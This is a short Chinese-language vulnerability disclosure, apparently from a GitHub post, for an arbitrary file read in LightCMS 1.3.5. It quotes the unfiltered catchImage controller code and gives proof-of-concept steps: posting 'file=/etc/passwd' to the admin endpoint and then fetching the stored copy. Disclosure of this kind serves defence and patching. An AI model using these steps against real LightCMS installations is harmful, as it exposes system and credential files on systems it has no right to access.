


# LightCMS1.3.5存在任意文件读取漏洞


存在漏洞的函数在`app/Http/Controllers/Admin/NEditorController.php`

```
public function catchImage(Request $request)
    {
        if (config('light.image_upload.driver') !== 'local') {
            $class = config('light.image_upload.class');
            return call_user_func([new $class, 'catchImage'], $request);
        }

        $files = (array) $request->post('file');
        $urls = [];
        foreach ($files as $v) {
            $extention = pathinfo(parse_url($v, PHP_URL_PATH), PATHINFO_EXTENSION);
            $path = date('Ym') . '/' . md5($v) . '.' . ($extention == '' ? 'jpg' : $extention);
            Storage::disk(config('light.neditor.disk'))
                ->put($path, file_get_contents($v));
            $urls[] = [
                'url' => Storage::disk(config('light.neditor.disk'))->url($path),
                'source' => $v,
                'state' => 'SUCCESS'
            ];
        }

        return [
           'list' => $urls
        ];
    }
```

我们可以看到在catchImage函数当中，并未对传入的参数进行过滤，因此我们可以在`http://url/admin/neditor/serve/catchImage`页面post传入

```
file=/etc/passwd
```




拼接访问

```
http://url/upload/image/202104/c5068b7c2b1707f8939b283a2758a691.jpg
```

得到泄露文件内容信息

